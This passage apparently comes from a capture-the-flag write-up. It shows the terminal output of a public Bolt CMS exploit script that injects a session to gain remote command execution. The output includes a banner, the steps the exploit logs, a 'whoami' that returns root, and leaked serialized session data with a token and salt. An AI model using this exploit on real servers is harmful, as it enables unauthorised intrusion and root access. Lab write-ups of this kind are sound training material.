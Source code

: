 ```terminal
▐░█▀▀▀▀▀▀▀█░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌   ▀   ▐░▌ ▀▀▀▀▀▀▀▀▀█░▌                                                                       
▐░▌       ▐░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌       ▐░▌          ▐░                                                                        
▐░█▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄▄▄▄▄ ▐░▌     ▐░█▄▄▄▄▄▄▄▄▄ ▐░▌       ▐░▌ ▄▄▄▄▄▄▄▄▄█░▌                                                                       
▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌▐░▌     ▐░░░░░░░░░░░▌▐░▌       ▐░▌▐░░░░░░░░░░░▌                                                                       
 ▀▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀▀▀▀  ▀       ▀▀▀▀▀▀▀▀▀▀▀  ▀         ▀  ▀▀▀▀▀▀▀▀▀▀▀                                                                        

Pre Auth rce with low credintanl                                                                                                                             
#Zero-way By @r3m0t3nu11 speical thanks to @dracula @Mr_Hex                                                                                                  
[+] Retrieving CSRF token to submit the login form                                                                                                           
[+] Login token is : MJftCjkexQaiBqGDiuJEew7Nd0w6NzOO0YFOktnMvjA                                                                                             
[+] SESSION INJECTION                                                                                                                                        
[-] Not found.             
[-] Not found.                                                                
[-] Not found.                                                                                                                                               
[-] Not found.                                                                                                                                               
[-] Not found.                                                                                                                                               
[-] Not found.                                                                                                                                               
[+] FOUND  : test7                                                                                                                                           
[-] Not found.                                                                                                                                               
[-] Not found.                                                                                                                                               
[-] Not found.                                                                                                                                               
Enter OS command , for exit 'quit' :
```

With that, we can now execute commands on the machine, but the output is a bit ugly, and it's not a stable shell.

```terminal
Enter OS command , for exit 'quit' : whoami                                                                                                                  
root                                                                                                                                                         
";s:8:"*stack";a:0:{}s:10:"*enabled";i:1;s:17:"*shadowpassword";N;s:14:"*shadowtoken";N;s:17:"*shadowvalidity";N;s:15:"*failedlogins";i:0;s:17:"*throttledunt
il";N;s:8:"*roles";a:2:{i:0;s:4:"root";i:1;s:8:"everyone";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"va
lues";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:8:"*token";O:29:"Bolt\Storage\Entity\Authtoken":12:{s:5:"*id";s:1:"5";s:10:"*user_id";
i:1;s:8:"*token";s:64:"56802548e9d05e94d9fc3c9456e294e20ce90c11f52ed46e8c79027bd5a98c92";s:7:"*salt";s:32:"8ef9c776af3bd28a8a841a7c03b2c6fb";s:11:"*lastseen"
;O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2022-01-30 13:24:04.608166";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:5:"*ip";s:12:"10.11.31.131";s:12:"
*useragent";s:22:"python-requests/2.25.1";s:11:"*validity";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2022-02-13 13:24:04.000000";s:13:"timezone_type";i:3;s:8:
"timezone";s:3:"UTC";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal
```